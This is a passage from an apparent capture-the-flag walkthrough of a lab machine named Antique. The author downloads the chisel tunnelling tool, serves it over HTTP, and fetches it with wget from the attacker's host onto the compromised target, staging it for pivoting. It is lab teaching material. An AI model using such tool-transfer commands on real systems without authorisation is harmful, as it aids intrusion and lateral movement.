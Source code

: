 ```

oxdf@hacky$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
--2022-05-02 13:21:41--  https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
Resolving github.com (github.com)... 140.82.113.4
Connecting to github.com (github.com)|140.82.113.4|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/31311037/ba3e7fe5-01fc-4b0c-b8eb-1b3a4c8eb61f?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220502%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220502T132141Z&X-Amz-Expires=300&X-Amz-Signature=71b61999ecaa294c3b7dec1489e6b6ffb2d943a271184c0de349c018c0f92cad&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=31311037&response-content-disposition=attachment%3B%20filename%3Dchisel_1.7.7_linux_amd64.gz&response-content-type=application%2Foctet-stream [following]
--2022-05-02 13:21:41--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/31311037/ba3e7fe5-01fc-4b0c-b8eb-1b3a4c8eb61f?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220502%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220502T132141Z&X-Amz-Expires=300&X-Amz-Signature=71b61999ecaa294c3b7dec1489e6b6ffb2d943a271184c0de349c018c0f92cad&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=31311037&response-content-disposition=attachment%3B%20filename%3Dchisel_1.7.7_linux_amd64.gz&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.108.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3234355 (3.1M) [application/octet-stream]
Saving to: ‘chisel_1.7.7_linux_amd64.gz’

chisel_1.7.7_linux_amd64.gz                                                     100%[====================================================================================================================================================================================================>]   3.08M  9.65MB/s    in 0.3s    

2022-05-02 13:21:41 (9.65 MB/s) - ‘chisel_1.7.7_linux_amd64.gz’ saved [3234355/3234355]
oxdf@hacky$ gunzip chisel_1.7.7_linux_amd64.gz 
oxdf@hacky$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

From Antique, I’ll fetch the binary:

```

lp@antique:/dev/shm$ wget 10.10.14.6/chisel_1.7.7_linux_amd64              
wget 10.10.14.6/chisel_1.7.7_linux_amd64                                   
--2022-05-02 13:23:19--  http://10.10.14.6/chisel_1.7.7_linux_amd64        
Connecting to 10.10.14.6:80... connected.                                  
HTTP request sent, awaiting response... 200 OK                             
Length: 8077312 (7.7M) [application/octet-stream]                            
Saving to: ‘chisel_1.7.7_linux_amd64’                                      

     0K .......... .......... .......... .......... ..........  0%  268K 29s
...[snip]...
  7800K .......... .......... .......... .......... .......... 99% 2.52M 0s
  7850K .......... .......... .......... ........             100% 1.37M=2.8s

2022-05-02 13:23:22 (2.78 MB/s) - ‘chisel_1.7.7_linux_amd64’ saved [8077312/8077312]

```
